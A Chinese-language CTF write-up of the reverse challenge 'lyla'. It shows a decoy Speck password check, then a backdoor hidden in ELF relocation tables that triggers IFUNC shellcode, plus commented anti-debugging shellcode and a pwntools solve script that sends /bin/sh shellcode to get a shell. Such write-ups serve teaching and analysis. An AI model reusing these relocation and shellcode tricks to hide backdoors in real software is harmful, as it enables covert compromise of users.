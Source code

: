 # lyla

Reverse; 400 points; 1 solve

Link to challenge: https://o.riat.re/lyla-a77c6d95f414453b4f170346cc902eb9e7fd33ddc10b471b95c21239e1b47852.tar.gz

## Description

> 面对如此传统的逆向工程题目，代码量不大，输入密码换取 flag 的经典设计，你还在等什么，快来解它！
> 
> 注意：题目保证有解，但解不唯一。
> 
> nc \<ip\> 1337

## Observations

（比赛时有做这道题目的同学可以跳过本节）

附件解压后可以得到这些文件：

```
$ tree .
.
├── docker-compose.yaml
├── Dockerfile
├── flag.txt
└── lyla

1 directory, 4 files
$ file lyla
lyla: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a6e1303a40f0bf951b5e3f63be8e137237efe315, for GNU/Linux 3.2.0, stripped
```

其中 `lyla` 为待分析的程序本体，而剩下三个文件则是用于复现题目运行环境的部署文件。

我们使用 IDA Pro + Hex-Rays 分析 `lyla`，很容易就能梳理出程序的主要逻辑，这里直接贴出源码，不再赘述：

<details>
<summary>点击展开代码</summary>

```cpp
char g_password[256];
// sub_2800
std::ifstream OpenFlag() {
  if (!std::filesystem::exists("flag.txt")) {
    std::cerr
        << "Flag file not found in current directory, challenge is broken."
        << std::endl;
    abort();
  }
  if (std::filesystem::file_size("flag.txt") < 2) {
    std::cerr << "Flag file is empty, challenge is broken." << std::endl;
    abort();
  }
  std::ifstream file{"flag.txt"};
  if (!file) {
    std::cerr << "Failed to open flag file, challenge is broken." << std::endl;
    abort();
  }
  return file;
}
// sub_2680
void AlarmHandler(int) {
  puts("Timed out.");
  exit(0);
}
// sub_2710
bool Verify(std::string_view flag) {
  if (!flag.starts_with("password{") || !flag.ends_with("}")) {
    return false;
  }
  auto key = flag.substr(9, flag.length() - 10);
  if (key.size() != 16) {
    return false;
  }
  unsigned char output[32];
  uint64_t rawkey[2];
  memcpy(rawkey, key.data(), sizeof(rawkey));
  Encrypt(output, kInput, sizeof(output), rawkey); // sub_2F70
  return !memcmp(output, kExpected, sizeof(kExpected));
}
int main(int argc, char *argv[]) {
  setvbuf(stdin, nullptr, _IONBF, 0);
  setvbuf(stdout, nullptr, _IONBF, 0);
  setvbuf(stderr, nullptr, _IONBF, 0);
  std::ios::sync_with_stdio(false);

  std::ifstream flag_file = OpenFlag();
  signal(SIGALRM, AlarmHandler);
  alarm(60);

  std::cout << "Welcome to Lyla, the devious flag vending machine." << '\n';
  std::cout << "Input password: ";
  std::cout.flush();
  std::cin.getline(g_password, sizeof(g_password));
  if (Verify(g_password)) {
    std::cout << "Correct password! Congratulations, here is the flag:" << '\n';
    std::cout << flag_file.rdbuf();
    std::cout.flush();
  } else {
    std::cout << "Nope." << std::endl;
  }
  return 0;
}
```
</details>

其中 `.rdbuf()` 的部分可能不太明显，不过选手应该很容易猜测出其是在密码正确的情况下将 `flag.txt` 的内容输出到标准输出。显然，重点在于 `sub_2710` 处验证函数中里的加密函数 `sub_2F70`。

## Cipher

（比赛时有做这道题目的同学可以跳过本节）

这个函数开头拿我们输入的“密码”生成了 32 个疑似子密钥的东西，这里的逻辑看起来被循环展开了，长得十分丑陋：

<details>
<summary>点击展开丑陋代码</summary>

```cpp
unsigned __int64 __fastcall sub_2F70(__int64 *a1, __int64 *a2, unsigned __int64 a3, __int64 *a4)
{
    /* ... */
    v87 = __readfsqword(0x28u);
    v4 = a3 & 0xF;
    if ( (a3 & 0xF) != 0 )
        __assert_fail("size % 16 == 0", "<redacted>", 0x34u, "<redacted>");
    v6 = *a4 + __ROR8__(a4[1], 8);
    v83[0] = *a4;
    v7 = v6 ^ __ROR8__(v83[0], 61);
    v8 = (v7 + __ROR8__(v6, 8)) ^ 1;
    v83[1] = v7;
    v9 = v8 ^ __ROR8__(v7, 61);
    v10 = (v9 + __ROR8__(v8, 8)) ^ 2;
    v83[2] = v9;
    v11 = v10 ^ __ROR8__(v9, 61);
    v12 = (v11 + __ROR8__(v10, 8)) ^ 3;
    v83[3] = v11;
    /* 略，一共重复了 32 次 */
```
</details>

不难发现其中的规律，我们把它改写的漂亮一点：

```cpp
unsigned __int64 __fVjjjjjjjjjastcall sub_2F70(__int64 *a1, __int64 *a2, unsigned __int64 a3, __int64 *a4)
{
    uint64_t key[32];
    uint64_t A = a4[0], B = a4[1];
    for (int i = 0; i < 32; i++) {
        B = (__ROR8__(B, 8) + A) ^ i;
        key[i] = A;
        A = B ^ __ROR8__(A, 61);
    }
```

类似的，下面的加密循环也被循环展开了（尽管展开的层数少一些）：

<details>
<summary>点击展开丑陋代码</summary>

```cpp
    do
    {
      v65 = *a2;
      v66 = a2[1];
      v67 = v83;
      do
      {
        v68 = *v67 ^ (v65 + __ROR8__(v66, 8));
        v69 = v68 ^ __ROR8__(v65, 61);
        v70 = v67[1] ^ (v69 + __ROR8__(v68, 8));
        v71 = v70 ^ __ROR8__(v69, 61);
        v72 = v67[2] ^ (v71 + __ROR8__(v70, 8));
        v73 = v72 ^ __ROR8__(v71, 61);
        v74 = v67[3] ^ (v73 + __ROR8__(v72, 8));
        v75 = v74 ^ __ROR8__(v73, 61);
        v76 = v67[4] ^ (v75 + __ROR8__(v74, 8));
        v77 = v76 ^ __ROR8__(v75, 61);
        v78 = v67[5] ^ (v77 + __ROR8__(v76, 8));
        v79 = v78 ^ __ROR8__(v77, 61);
        v80 = v67[6] ^ (v79 + __ROR8__(v78, 8));
        v81 = v80 ^ __ROR8__(v79, 61);
        v66 = v67[7] ^ (v81 + __ROR8__(v80, 8));
        v67 += 8;
        v65 = v66 ^ __ROR8__(v81, 61);
      }
      while ( &v86 != (char *)v67 );
      v4 += 16LL;
      *a1 = v65;
      a1[1] = v66;
    }
    while ( v4 < a3 );
```
</details>

不难看出，它其实是：

```cpp
    for (int v4 = 0; v4 < a3; v4 += 16) {
        uint64_t v65 = a2[0], v66 = a2[1];
        for (int i = 0; i < 32; i++) {
            v66 = (__ROR8__(v66, 8) + v65) ^ key[i];
            v65 = v66 ^ __ROR8__(v65, 61);
        }
        a1[0] = v65;
        a1[1] = v66;
    }
```

到这里，我们可以得出结论：这是一个 block cipher，块大小为 16 字节，密钥长度为 16 字节，其进行了 32 轮纯粹由加法、循环位移和异或的操作。其 Key Schedule 过程和加密过程是同构的。唯一的问题在于，和一般逆向题固定密钥要求找出对应某个输出的输入不同，这里是固定输入和输出，要求找出使其成立的密钥。

此外，我们可以注意到，无论传入的输入多长，加密函数都只处理其前 16 字节。前面主逻辑里我们可以看到其提供给加密函数的输入是 32 字节的，比较时也是比较的完整 32 字节的结果，而这里后 16 字节并没有被处理，因此题目主逻辑里的条件，好像，不可能被满足啊？？？

## Cipher???

再来回头看看这个 cipher，注意到它是 ARX 结构的，浏览一圈之后我们可以找到一个叫 [Speck](https://en.wikipedia.org/wiki/Speck_(cipher)) 的 cipher 和这里的实现精确一致。问题是……这个密码算法，它好像，是安全的啊？这意味着我们不可能根据两组输入和输出就还原密钥。结合上面的 bug，我们可以确信：这个题目是无解的。

但是题目描述里特地写了有解，这是怎么回事呢？难道我们被 IDA 骗了，程序里还隐藏着更多逻辑吗？

## Reverse Harder

假设这个程序里面有隐藏的逻辑，那么它会隐藏在哪里呢？除开明面上有的代码以外，哪里还可能隐藏着能控制这个程序的逻辑呢？建议读者在这里停下来，自行尝试探索一下。
我们先来排除一些错误答案：

* 在反汇编器里把程序里每个函数，每个字节都从头到尾仔仔细细的看一遍。这样并不能找到什么。
* init_array、fini_array、.init、.fini 里都没有特别的东西。

接下来，如果还没有思路的话，这里给出两个线索，我们同样鼓励读者在阅读每个线索后自行探索一番再继续展开后续剧透：

<details>
<summary>线索一</summary>

在十六进制编辑器中打开，可以看到程序的 .text 节结尾处的正常代码后面并不像其他程序一样全部是 0，而是在一段 00 后还有一段高 entropy 的数据，它们是做什么的？在什么情况下会被用到？
</details>

<details>
<summary>线索二</summary>

```
$ readelf -a lyla
# ...
Dynamic section at offset 0x4c88 contains 29 entries:
# ...
 0x000000000000001e (FLAGS)              TEXTREL BIND_NOW
 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE
 0x000000006ffffffe (VERNEED)            0x1048
 0x000000006fffffff (VERNEEDNUM)         3
 0x000000006ffffff0 (VERSYM)             0xfd4
 0x000000006ffffff9 (RELACOUNT)          8
 0x0000000000000000 (NULL)               0x0

Relocation section '.rela.dyn' at offset 0x1118 contains 26 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
0000000008e4  000000000008 R_X86_64_RELATIVE                    2600
0000000008e6  000000000008 R_X86_64_RELATIVE                    25f1
0000000008e7  000000000008 R_X86_64_RELATIVE                    25ff
0000000008e8  000000000008 R_X86_64_RELATIVE                    1db0
000000005be0  000000000008 R_X86_64_RELATIVE                    2670
000000005be8  000000000008 R_X86_64_RELATIVE                    2560
000000005bf0  000000000008 R_X86_64_RELATIVE                    2630
000000006008  000000000008 R_X86_64_RELATIVE                    6008
000000005fd0  002c00000006 R_X86_64_GLOB_DAT 0000000000000000 __cxa_finalize@GLIBC_2.2.5 + 0
000000005fd8  000f00000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.34 + 0
# ...
```

<details>
<summary>提示一</summary>
TEXTREL 是起什么作用的？听上去是用来重定位 .text 节的，但 PIE 不是不需要对代码做重定位吗？它为什么会和 PIE 组合出现？
</details>
<details>
<summary>提示二</summary>
RELA 重定位表中的 R_X86_64_RELATIVE 项会向目标 offset 处写入 8 字节，可开头的四项为什么看起来写入目的地址是重叠的？它们往哪里，写了什么？
</details>
<details>
<summary>提示三</summary>

这四项覆盖了 ELF 符号表中 `_ZNKSt5ctypeIcE8do_widenEc` 的类型和值，这个符号在哪里用到了？
</details>
</details>

再次提醒，题目被设计为选手一旦找到了入手点便很容易顺藤摸瓜解决的样子，如果您有兴趣尝试自行探索，请在这里停止阅读。

<details>
<summary>剧透警告</summary>

## 后门加载

后门代码的解码和触发逻辑藏在了重定位表里，重定位表的结构这
里不再赘述，感兴趣的同学可以自行翻阅 glibc 源码中的 `glibc/sysdeps/x86_64/dl-machine.h`。

加载阶段利用了以下两个重定位类型：

* `R_X86_64_COPY` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `memcpy(elf_base+addr, symbol_value, symbol_size);`
* `R_X86_64_RELATIVE` - `*(uint64_t*)(elf_base+addr) = (elf_base+addend);`

为了让包含后门的重定位表不显得过于显眼，我们并没有选择将触发后门的重定位表项直接插入原始的重定位表中，而是利用 RELA 和 JMPREL 在内存中紧密相接这一点，修改 DT_RELASZ，将其设置为 DT_RELASZ + DT_PLTRELSZ - 1 [1]，使得 .rela.plt 节中的内容会被解析两次，并在 .rela.dyn 中加入了五项作为第一阶段，其中四个 `R_X86_64_RELATIVE`
覆盖了 ELF 符号表中 `_ZNKSt5ctypeIcE8do_widenEc` 的类型为绝对符号，然后将其值覆盖为符号表中 `_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_disposeEv` 的元数据地址。

接下来，在运行到引用了该符号的 `R_X86_64_COPY` 时，其用位于首个 ELF Segment 结尾，偏移 0x1DB0 处的一小段数据覆盖符号表中 `..._disposeEv` 的元数据。

覆盖的元数据将类型置为 LOCAL，值置为 0x1A50，大小置为 0x348。该处存放的是实际实现后门注入功能的重定位表项。后续触发该符号的 `R_X86_6
4_COPY` 时将 0x1A50 处的后门重定位项覆盖至 .rela.plt 节中。ld.so 在接下来处理 JMPREL 时即会运行我们触发后门的重定位表项。

这里借用的两个符号原本并不会有对应的 `R_X86_64_COPY` 存在，但应该没有人会注意到这一点吧w

这里用了一个两层的加载，设计上有两点考虑：

* 在 binary 被 strip 或由 WSL 加载等情况下避免 crash。
    - 前述两种情况下 segment 末尾的数据均会被清零，如果没有第二层加载，我们将会使用全 0 数据覆盖重定位表，导致程序 crash。
    - 加入第二层加载后，如果 segment 末尾的数据被清零，则第二次 COPY 的大小为 0，则后门实际上被清除，但程序不会崩溃引起怀疑。
* 可以最大限度的减少表面上的 RELA 表和符号表中看上去可疑的数据。
    - 这样处理后，RELA 表中仅多出来四个程序中本就很多的 `R_X86_64_RELATIVE` 类型的重定位，及两个看似无关的符号上的 `R_X86_64_COPY`。
    - 除非仔细盯着它们的目标 offset 看，很难意识到它们有问题。

[1] 减一的原因是 ld.so 里特别检查了 JMPREL 完全是 RELA 的一部分的情况，在这种情况下会跳过第二次执行。

<details>
<summary>更多剧透警告</summary>

## 后门重定位表项

后门中利用了以下几个重定位类型：

* `R_X86_64_SIZE64` - 指定 symbol index = 0，则该重定位项的实际效果为写 `*(uint64_t*)(elf_base+addr) = (addend+0);`
* `R_X86_64_COPY` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `memcpy(elf_base+addr, symbol_value, symbol_size);`
* `R_X86_64_RELATIVE` - `*(uint64_t*)(elf_base+addr) = (elf_base+addend);`
* `R_X86_64_64` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `*(uint64_t*)(elf_base+addr) = (symbol_value + addend);`

此外我们还利用了 IFUNC 机制，将符号类型设置为 `STT_GNU_IFUNC` 后，ld.so 在解析该符号时会将原本解析出来的值当作函数指针调用，并将函数返回值作为解析出来的符号值。这可以用来触发 shellcode 执行。

Patch 一下 ELF 的 section table 和 .dynamic，修改 JMPREL 为 0x1A50，可以列出我们加入的重定位项如下：

```
Relocation section '.rela.plt' at offset 0x1a50 contains 36 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
0000000008f0  000000000021 R_X86_64_SIZE64                      8
0000000008e8  000000000008 R_X86_64_RELATIVE                    5d70
0000000008e8  003400000005 R_X86_64_COPY     0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 0
0000000008e8  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 8
0000000008e8  003400000005 R_X86_64_COPY     0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 0
0000000039a5  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + a8
0000000008e8  000000000021 R_X86_64_SIZE64                      16493f2103392e07
00000000394d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 4599d06a45025d41
000000003975  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 3db6c010e3b20b6d
000000000760  000000000021 R_X86_64_SIZE64                      1200005be0
0000000039ad  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 432d2b3e4fe15b46
000000000798  000000000008 R_X86_64_RELATIVE                    3945
000000006508  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 601e33405c333658
00000000395d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 3299f71177f07ebf
000000003995  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 5e45c510bcf87d70
00000000398d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 55de21ab84bda0bf
000000003955  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 23890dca8e09f487
000000003985  000000000008 R_X86_64_RELATIVE                    1a40
000000003965  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 1157fea7cdc85d0c
00000000399d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 5bff483e74352af5
0000000039b5  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 16487b760fdd6dd6
000000003945  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 16493f30e5abe5b4
00000000396d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 742301bac3c48361
00000000397d  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 5affe5a498f9850f
000000000790  000000000021 R_X86_64_SIZE64                      -efff600000000
000000000770  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 16493f2103392dff
00000000393d  002400000005 R_X86_64_COPY     0000000000000000 _ITM_deregisterTM[...] + 0
000000006508  000f00000001 R_X86_64_64       0000000000000000 __libc_start_main@GLIBC_2.34 + 0
000000006508  003400000001 R_X86_64_64       0000000000002bb0 _ZNKSt5ctypeIcE8d[...] - 16493f209dcbc493
000000003935  002400000001 R_X86_64_64       0000000000000000 _ITM_deregisterTM[...] + 0
0000000039b3  002600000001 R_X86_64_64       0000000000000000 __gmon_start__ + 0
000000003935  000000000021 R_X86_64_SIZE64                      0
0000000008e8  000000000008 R_X86_64_RELATIVE                    16e8
0000000008f0  000000000021 R_X86_64_SIZE64                      360
000000001388  003400000005 R_X86_64_COPY     0000000000002bb0 _ZNKSt5ctypeIcE8d[...] + 0
000000000000  000000000000 R_X86_64_NONE                        0
```

阅读一番，可以梳理出其逻辑如下：

1. 获取 ELF .dynamic 节中的 DT_DEBUG 指针，该指针指向一个 `_r_debug` 结构体，其中包含了一个指向 `link_map` 结构体的指针，该结构体包含了 ELF 的基地址、大小、符号表及所有的 dynamic tag 的值。
2. 计算出 link_map + 64 + 13 * 8 的地址保存至 .text 结尾处备用，其中 13 为 DT_FINI 的值。该地址是 `link_map->dl_info[DT_FINI]`，其控制了 ld.so 在程序退出时调用的 fini 函数地址。
3. 解析 `_dl_argv` 变量和 `time` 函数的值备用。
4. 在 .text 段结尾处写入一段 shellcode 并利用 IFUNC 机制运行。

其中解析符号是通过修改符号表，再触发 `R_X86_64_64` 实现的，读取内存是通过 `R_X86_64_COPY` 实现的，写入的常量不是明文，而是通过 `R_X86_64_64` 做了一个加法。

后门重定位表项的最后使用 `R_X86_64_COPY` 将备份的原始 .rela.plt 内容复制了回去。这样在第二次执行处理 JMPREL 时将可以正常处理原始 JMPREL 中的重定位项。

## Shellcode

由于 ELF Reloc Machine 中没有办法实现写绝对地址（只能相对于正在加载的 ELF 写），只能通过 shellcode 来完成写绝对地址的操作。Shellcode 中顺便做了反调试工作。

注释后的 shellcode 内容如下：

```asm
_begin:
    push rbx
    lea rbx, [rip+_begin-8]
    mov rdi, [rbx] /* &_dl_argv */

    // Make sure argv[0] starts with '/' (which is unusual when debugging, but plausible with xinetd)
    mov rcx, [rdi]
    jrcxz bye
    cmp byte ptr [rcx], '/'
    jnz bye

    /* Optimized (for size) loop for skipping argv */
    /* No need to populate rcx: it is guaranteed to have a pointer now */
    xor eax, eax
    repnz scasq

    // Check for environment variable "COLUMNS" and "LD_*".
    // To make it tight we use an approximation: just check the first 4 characters.
env_check_loop:
    mov rcx, [rdi]
    scasq
    jrcxz env_check_okay
    mov eax, dword ptr [rcx]
    ror eax, 1
    cmp eax, 0xaaa627a1 /* "COLU" */
    jz bye
    // hex(ror(u32(b"LD_P"), 1, 32) & 0xffff). there might be false positive but
    // we don't care as long as there aren't in prod.
    cmp ax, 0xa226
    jz bye
    jmp env_check_loop

env_check_okay:
    /* Patch payload to only run at correct time. rdi points to auxv (writable) */
    xor edi, edi
    call [rbx-8]
    /* Decode payload only when time() % 64 == 0 */
    test al, 63
    movqq rcx, PAYLOAD_SIZE_IN_WORDS
    movabs r11, VALUE_TO_WRITE
    lea rdi, [rbx+(_end-_begin)+8]
    jnz bye
    imul eax, eax, 119
    stosd
    // Decode payload
    xor eax, eax
decode_loop:
    xor [rdi+rcx*4], eax
    jz bye
    add eax, [rdi+rcx*4]
    loop decode_loop

    // Overwrite dl_info[DT_FINI] in link_map
    movabs r10, ADDR_TO_WRITE
    mov [r10], r11
bye:
    // Zeroing self
    movqq rdi, rbx
    movqq rcx, _fin-_begin+8
    xor eax, eax
    pop rbx
    rep stosb
    _fin:
    ret
_end:
```

这里采用的反调试 trick 有：

* 检查 `argv[0]` 是否以 `'/'` 开头
* 检查环境变量中是否包含 `COLUMNS` （gdb 会设置该环境变量）
* 检查环境变量中是否包含 `LD_*`
* 检测 `time()` 的返回值是否模 64 为 0（即后门每 64 秒触发一次）

都通过后会将 `link_map->dl_info[DT_FINI]` 的值覆盖为这段 shellcode 结尾处的地址，并解码其内容，将 `time()` 乘 119
后保存到指定偏移，最后将自身内容清零。通过控制文件中的内容布局，我们在 shellcode 结尾处布置了另一段编码后的 shellcode，这样它会在程序退出时被执行。

## Actual Backdoor

另一段 shellcode 则是实际的后门代码，其会首先解析 vDSO 中的 `clock_gettime`，检查此时 `clock_gettime(CLOCK_REALTIME, ...)` 的返回值和程序开始时间是否正好差 3，程序里读入的密码 buffer + 255 字节偏移处是否非 0，若都是，则在程序里面读入的密码 + 128 字节偏移处的 16 字节上以硬编码的密钥运行 Speck (128/128)，并检查结果是否为
另一硬编码的值。若满足条件，则将密码 buffer 通过 mprotect 设置为可执行并运行。

逆向清楚后门的逻辑后，获取 flag 就比较简单了，我们只需要使用 Speck (128/128) 解密触发后门所需的数据，将其和 /bin/sh shellcode 按照上述格式拼接好，在符合条件的时间连接到远程服务器，在三秒后发送，即可获得 shell。获得 shell 后直接 `cat flag.txt` 即可。如果选手的环境没有条件和服务器时间达成同步，也可以每秒启动一个连接，直
到成功，也可以在至多 70 秒内解出。

## solve.py

```python
from pwn import *

context.arch = 'amd64'

ACTUAL_KEY = [0x85615CE70BA97239, 0xAF6F5627BC993A1E]

class Speck:
  KEY_SIZE = 16
  BLOCK_SIZE = 16
  ROUNDS = 32

  def __init__(self, key: bytes):
    self.subkeys = self.key_schedule(key)

  @staticmethod
  def forward(x, y, k):
    x = ror(x, 8, 64)
    x = (x + y) % 2**64
    x ^= k
    y = rol(y, 3, 64)
    y ^= x
    return x, y
  
  @staticmethod
  def backward(x, y, k):
    y ^= x
    y = ror(y, 3, 64)
    x ^= k
    x = (x - y) % 2**64
    x = rol(x, 8, 64)
    return x, y

  def key_schedule(self, key: bytes):
    assert len(key) == self.KEY_SIZE
    A, B = (u64(key[:8]), u64(key[8:]))
    result = []
    for i in range(self.ROUNDS):
      result.append(A)
      B, A = self.forward(B, A, i)
    return result

  def encrypt_block(self, block: bytes):
    assert len(block) == self.BLOCK_SIZE
    x, y = (u64(block[:8]), u64(block[8:]))
    for i in range(self.ROUNDS):
      y, x = self.forward(y, x, self.subkeys[i])
    return p64(x) + p64(y)

  def decrypt_block(self, block: bytes):
    assert len(block) == self.BLOCK_SIZE
    x, y = (u64(block[:8]), u64(block[8:]))
    for i in range(self.ROUNDS - 1, -1, -1):
      y, x = self.backward(y, x, self.subkeys[i])
    return p64(x) + p64(y)

def sanity():
  speck = Speck(b"\x00" * 16)
  assert speck.decrypt_block(speck.encrypt_block(b"\x00"*16)) == b"\x00"*16
  speck = Speck(bytes(range(16)))
  assert speck.encrypt_block(b" made it equival") == bytes([0x18, 0x0d, 0x57, 0x5c, 0xdf, 0xfe, 0x60, 0x78, 0x65, 0x32, 0x78, 0x79, 0x51, 0x98, 0x5d, 0xa6])

sanity()

if args.WRONG_KEY:
  ACTUAL_KEY[0] = 114514

cipher = Speck(p64(ACTUAL_KEY[0]) + p64(ACTUAL_KEY[1]))
payload = flat({
  0: asm(shellcraft.sh()),
  128: cipher.decrypt_block(b"\x00"*16),
}, length=255)
assert b"\n" not in payload

if args.MISALIGN:
  while int(time.time())%64 == 0:
    time.sleep(0.1)
else:
  log.info("Waiting for backdoor trigger interval...")
  while int(time.time())%64 != 0:
    time.sleep(0.5)

if args.REMOTE:
  r = remote(args.HOST, args.PORT)
else:
  r = process(args.EXE or os.path.realpath("./lyla"))

r.recvuntil(b"Input password: ")
time.sleep(int(args.DELAY or 3))
r.sendline(payload)
r.interactive()
```

</details>

</details>

</details>

------------------------
<details>
<summary>杂谈环节（含剧透）</summary>

## Backstory

1. 题目中的检查函数里只加密了 16 字节，却比较了 32 个字节，当然并不是用来让选手“相信自己”，提示选手伪装题无解而做的深思熟虑的设计（笑），而真的是写错了。我们原本预期这个错误会导致选手产生怀疑，从而会有更多的选手发现后门所在，决定将错就错，正好让题目简单一些，但从比赛结果来看，好像并没有起到这个效果。
    ```cpp
    void Encrypt(void *dst, const void *src, size_t size, uint64_t rawkey[2]) {
        assert(size % 16 == 0);
        dst = __builtin_assume_aligned(dst, 16);
        src = __builtin_assume_aligned(src, 16);

        uint64_t key[kRounds];
        ExpandKey(key, rawkey);
        for (size_t i = 0; i < size; i += 16) {
            // BUG: 忘记加 i 惹。
            uint64_t *current_dst = reinterpret_cast<uint64_t *>(dst);
            const uint64_t *current_src = reinterpret_cast<const uint64_t *>(src);
            uint64_t x = current_src[0], y = current_src[1];
            for (int i = 0; i < kRounds; i++) {
                SpeckRound(y, x, key[i]);
            }
            current_dst[0] = x;
            current_dst[1] = y;
        }
    }
    ```
2. 题目本来的名字是“伪◯拘◯”，作为提示，兴许还能让这个题目更简单一些（？），但实在是没有勇气真的挂出来，于是请 ChatGPT 帮忙随便起了一个名字。没有想到的是，"lyla" 这个名字居然被 NeSE 理解出了 “估计跟 RELA 有点关系” 的含义……
3. 可能有些选手已经猜到了，本题的 idea 来自 hxp 在 36C3 CTF 上出的 `md15` 一题及 Google CTF 2022 的 `eldar` 一题，可以说是这两道题目的超融合邪恶加强版。
4. 题目其实在今年 (2023) 的 hxp CTF 2022 之前就已经准备好了，结果 hxp CTF 上又出现了一道利用 reloc 黑魔法的逆向题。瞬间让这道题难度大减（一旦知道看 reloc，具体的 trick 就不重要了），关键是我这套实现比那道题目简单粗暴的 IRELATIVE 可精致多了……实在不忍心废弃掉题目，于是又加入了一堆 trick，总算是勉强藏到了即使做了那道题的同学也不会轻易看出来的程度。
5. 后门里面采用了和伪装题同样的 Speck (128/128) 密码算法，是为了让逆向了伪装题并尝试去解了的选手的功夫不至于完全白费，不知道有没有选手领情 :P

## 设计思路 Q&A

* 为什么后门触发条件用 time()？
    - 因为获取时间走 vDSO，不需要系统调用，不会触发 `catch throw`，也不会在 strace 中留痕。
* 为什么要每 64 秒触发一次？
    - 为了防止 attach 到容器内实际运行的进程上扫代码直接扫出来后门代码。
* 为什么反调试只查这些偏门的东西？
    - 反调试部分的核心设计思路为“被动反调试”，即只检查环境里有的东西，避免做系统调用。

</details>